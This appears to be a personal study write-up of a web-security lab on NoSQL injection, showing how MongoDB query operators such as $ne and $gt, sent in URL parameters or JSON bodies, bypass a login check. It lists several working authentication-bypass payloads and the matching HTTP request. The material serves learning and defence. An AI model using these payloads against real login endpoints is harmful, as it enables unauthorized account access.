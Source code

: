 
---

# 📖 High-Level Summary:

This lab demonstrates **NoSQL Injection** techniques by exploiting the insecure handling of NoSQL queries. By manipulating query operators such as `$ne` (not equal) or `$gt` (greater than), we bypass authentication mechanisms and gain unauthorized access.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**NoSQL Injection**|A vulnerability that exploits improperly sanitized inputs in NoSQL databases.|Targets the query structure to manipulate logic and bypass authentication.|
|**NoSQL**|A type of database that stores data in a non-relational format, often as documents (e.g., MongoDB).|Commonly used query operators: `$ne` (not equal), `$gt` (greater than), `$lt` (less than).|
|**`$ne` (Not Equal)**|A NoSQL query operator that checks if a value is not equal to another value.|Example: `{"username": {"$ne": null}}` matches any username not equal to `null`.|
|**`$gt` (Greater Than)**|A NoSQL query operator that checks if a value is greater than another value.|Example: `{"password": {"$gt": ""}}` matches passwords greater than an empty string.|

---

# 🎯 Steps and Commands:

### Step 1: Identify the Login Endpoint

1. **Valid Login Attempt**:
    
    - Input:
        - Username: `admin`
        - Password: `admin`
    - **Result:** Successful login.
2. **Invalid Login Attempt**:
    
    - Input:
        - Username: `asdasd`
        - Password: `asdasd`
    - **Result:** Failed login.
3. **Traffic Observation**:
    
    - **GET Request:**
        
        ```plaintext
        GET /login?username=admin&password=asdasd HTTP/1.1
        ```
        

---

### Step 2: Exploiting the Vulnerability

1. **Injection Payload**:
    
    ```plaintext
    GET /login?username=admin&password[$ne]=asdasd
    ```
    
    - **Explanation**:
        - `password[$ne]=asdasd` evaluates to true because `$ne` means "not equal."
        - This bypasses the actual password check since the query now matches any password not equal to `asdasd`.
2. **Other Payload Examples**:
    
    ```json
    {"username": {"$ne": null}, "password": {"$ne": null}}
    {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
    {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
    {"username": {"$gt":""}, "password": {"$gt":""}}
    ```
    

---

### Step 3: Visual Representation of the Payload

#### Original Query (No Injection):

```json
{
  "username": "admin",
  "password": "asdasd"
}
```

- **Expected Behavior**: The application checks if the provided username and password match a valid user.

---

#### Injected Query:

```json
{
  "username": "admin",
  "password": {"$ne": "asdasd"}
}
```

- **Injected Behavior**:
    - The password is evaluated as "not equal to `asdasd`."
    - This bypasses the actual password check, as any password not matching `asdasd` will return true.

---

# 🧐 Why Does the Payload Work?

1. **Understanding `$ne`**:
    
    - `$ne` stands for "not equal."
    - In a NoSQL query, it bypasses the exact match requirement by returning true if the condition is not met.
2. **Query Logic**:
    
    - Original Query:
        
        ```json
        db.users.findOne({ "username": "admin", "password": "asdasd" })
        ```
        
        - Returns true only if both conditions match a database entry.
    - Injected Query:
        
        ```json
        db.users.findOne({ "username": "admin", "password": { "$ne": "asdasd" } })
        ```
        
        - Bypasses the password check because `$ne` returns true for any password not equal to `asdasd`.
3. **Other Payloads**:
    
    - **`$gt` (Greater Than)**:
        - Example:
            
            ```json
            {"username": {"$gt": ""}, "password": {"$gt": ""}}
            ```
            
        - Matches any non-empty string for both `username` and `password`.

In a URL, **square brackets** (`[]`) are used as a way to encode **nested objects** in query strings. They are not exactly the same as curly brackets (`{}`), but they serve a similar purpose in encoding JSON-like structures into URL parameters.

Let me break it down step by step:

---

### **1. Why Square Brackets (`[]`) in URLs?**

When encoding data in a URL query string, you cannot directly use JSON with curly brackets (`{}`). Instead, square brackets (`[]`) are used as a convention to indicate nested structures.

For example:

- Query string:
    
    plaintext
    
    CopyEdit
    
    `password[$ne]=value`
    
    This translates to the following JSON:
    
    json
    
    CopyEdit
    
    `{   "password": {     "$ne": "value"   } }`
    

The **square brackets** signify that `$ne` is part of a sub-object under the key `password`.



---

# ✅ Key Takeaways:

1. **NoSQL Query Operators**:
    - Operators like `$ne` and `$gt` can manipulate query logic, bypassing authentication.
2. **Payload Placement**:
    - Injecting query operators directly into parameters can alter the intended database query behavior.
3. **Fuzzing for Injection**:
    - Tools like **ffuf** with NoSQL-specific wordlists can discover vulnerable endpoints efficiently.

---
